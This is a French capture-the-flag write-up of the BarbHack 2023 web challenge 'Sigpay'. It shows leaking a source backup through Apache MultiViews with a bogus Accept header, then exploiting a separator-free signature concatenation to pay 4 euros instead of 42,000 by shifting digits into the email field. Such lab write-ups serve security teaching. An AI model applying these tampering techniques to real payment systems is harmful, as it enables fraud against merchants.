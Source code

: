 > Name: Sigpay
> 
> Category:  Web
> 
> Difficulty: Easy/Medium
> 
> Description: 
> *NFTs are so popular right now that everyone wants to be in it. Even charities...*
>
> *For each donator, the "Retro Community" claims to offer a unique NFT. Because they are having so much success, they plan on releasing the ultime NFT very soon.*
>  
> *You need that Secret NFT, by any means. Can you get it before anyone else ?*

Sur ce challenge, on a deux sites distincts :
- Le site de donation : http://donate.retro.nft:40080/
- Le site de paiement tiers (3rd Party) : http://payment-gateway.retro.nft.easy4pay.money:40080/

Le but est d'acheter le NFT à 42 000 euros.

![donate retro nft_40080_ (1)](https://github.com/pun-private/writeup-barbhack2023-web/assets/27222105/4565e63a-fcf7-4f3a-8f22-09097bb410e4)

![payment-gateway retro nft easy4pay money_40080__Amount=20 TransactionID=1089d466-8d27-4be5-960d-10603d264401 UserEmail=a@a com Signature=0bf07955d8e0475ac81728abe697c2e87d3ed57280265c1617aa21c6f9ad58c04361d03eef7ef](https://github.com/pun-private/writeup-barbhack2023-web/assets/27222105/47986731-672a-4531-9348-d743f59cd713)

Lorsqu'on ajoute au panier un NFT du site principal, une signature est générée et envoyée au site de paiement. Si on altère n'importe quel paramètre, on a le message :

> *** Signature could not verified.**

En regardant le site principal, on voit qu'il y a un CHANGELOG tout en bas :

```
# Changelog
All notable changes to this project will be documented in this file.

The format is based on [Keep a Changelog](https://keepachangelog.com/en/1.0.0/),
and this project adheres to [Semantic Versioning](https://semver.org/spec/v2.0.0.html).

## [Unreleased]

## [0.4.0] - 2022-01-03
### Changed
- Multi-Language "Terms of Service" files are served using Apache Configuration only :

    <Directory /var/www/html/files>
        Options -Indexes +FollowSymLinks +MultiViews
        MultiviewsMatch Any
    </Directory>

## [0.3.1] - 2022-12-09
### Changed
- New "Disallow" rule in `robots.txt` in case backup files are indexable.

## [0.3.0] - 2021-12-08
### Added
- Backup scripts

## [0.2.0] - 2021-12-03
### Added
- Payments are now handled by an external gateway.

### Security
- Switched to SHA3-512 for transactions signatures.

## [0.1.0] - 2021-11-10
### Added
- Initial release.
```

Deux choses sont intéressantes :
1. Le Multiview est activé sur la configuration Apache (https://httpd.apache.org/docs/2.4/en/content-negotiation.htmlhttps://httpd.apache.org/docs/2.4/en/content-negotiation.html)
2. Il y aurait des backups (on le voit aussi dans le chemin `/files/backup` dans `robots.txt`)

En allant sur http://donate.retro.nft:40080/files/backup, on a journal d'information sur les backups :

```
[2021-12-26 01:00:00] Logfile="backup.txt.log_20211226.56872"

[2021-12-26 01:00:00] Deleting previous backups : rm backup.*

[2021-12-26 01:00:00] Archiving "donations_all.csv" file...
[2021-12-26 01:00:03] Backup "backup.tar<redacted>_csv" created.

[2021-12-26 01:00:03] Archiving "donate" source code folder...
[2021-12-26 01:00:12] Backup "backup.tar<redacted>_src" created.

[2021-12-26 01:00:12] Script finished with 0 error(s).
```

Il y a trois fichiers backup* qui sont créés :
- `backup.txt.log_20211226.56872` => c'est le journal qu'on lit actuellement
- `backup.tar<redacted>_csv` => c'est un backup de toutes les donations
- `backup.tar<redacted>_src` => c'est le **backup du code source** ! 

Comme le multiview est activé, on peut essayer d'aller sur `/files/backup.tar` qui nous récupère bien une archive mais c'est celle des donations, pas du code source. 

En se documentant sur ce qu'est le multiview, on comprend que le serveur nous retourne ce qu'on lui demande comme type de fichier (langue, type, etc)... mais s'il ne sait pas ce qu'on veut, il nous retourne la liste des fichiers candidats possibles !

```
$> curl -H 'Accept: WhatDoYouWant/IDontKnow' http://donate.retro.nft:40080/files/backup

<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>406 Not Acceptable</title>
</head><body>
<h1>Not Acceptable</h1>
<p>An appropriate representation of the requested resource could not be found on this server.</p>
Available variants:
<ul>
<li><a href="backup.tar.584a7d5ba722121e729c049e9bc91932_src">backup.tar.584a7d5ba722121e729c049e9bc91932_src</a> , type application/x-tar</li>
<li><a href="backup.tar.f3d62d4f5c5a9d43e4e1d1d623950b7c_csv">backup.tar.f3d62d4f5c5a9d43e4e1d1d623950b7c_csv</a> , type application/x-tar</li>
<li><a href="backup.txt.log_20211226.56872">backup.txt.log_20211226.56872</a> , type text/plain</li>
</ul>
<hr>
<address>Apache/2.4.56 (Debian) Server at donate.retro.nft Port 40080</address>
</body></html>
```

On a désormais le nom complet du backup des sources qu'on peut télécharger :
http://donate.retro.nft:40080/files/backup.tar.584a7d5ba722121e729c049e9bc91932_src

Dans la classe Donation, on voit comment la génération de signature pour le paiement est faite :

```php
    static public function generateSignature($transaction_id, $amount, $user_email) {

        $raw_string = "{$transaction_id}{$amount}{$user_email}" . SIGNATURE_SALT;
        return hash('sha3-512', $raw_string); // GO STRONG OR GO HOME !
        
    }
```

Sur le site du paiement, la signature est généré de la même façon ce qui permet de s'assurer de l'intégrité des paramètres qui lui sont envoyés

```
Amount=20&TransactionID=5e89b96d-dd2e-4d14-9984-b249d4c74a85&UserEmail=a@a.com&Signature=f4dd6d1f9c6221806c6b770783afdf3b512c2bdaf509fbd05a3818be137a96592e9c9dd16ee66eefa9cda0ae287bf6eca2ec2054606d9aba5be669f4ccdb0cc4
```

En s'intéressant plus à cette fonction, on voit que les valeurs sans tout simplement concaténés sans séparateur avec un `SIGNATURE_SALT` qu'on ne connait pas. Imaginons qu'on a les paramètres suivants :

```
transaction_id: 12345-XYZ
amount: 42
email: pouet@prout.com

raw_string = 12345-XYZ42pouet@prout.com<secret_salt>
```

Et si maintenant la somme vaut `4` et l'email `2pouet@prout.com` ?

```
raw_string = 12345-XYZ42pouet@prout.com<secret_salt>
```

Cela donne exactement la même signature !

Il ne reste plus qu'à générer une donation de 42000 euros sur le site donate :

```
http://donate.retro.nft:40080/checkout?Amount=42000&UserEmail=a@a.com
```

Et modifier la somme à `4` et l'email à `2000a@a.com` sur le site de paiement :

```
http://payment-gateway.retro.nft.easy4pay.money:40080/?Amount=4&TransactionID=929d84a4-03f5-4465-85b7-c54799ca4688&UserEmail=2000a@a.com&Signature=74e832721da97b3032bc406ec0a99db965f32039119a3f2c52ce4d5c358150b383ebb37fa82b0ce49cb6722e4f17ac80cb1de004911ad70cfa9d09fe854f373e
```

On paie et on est redirigé vers le flag =)

![Pasted image 20230731113652](https://github.com/pun-private/writeup-barbhack2023-web/assets/27222105/a947bf81-9f6d-49aa-87a1-ebfa4f036d7c)
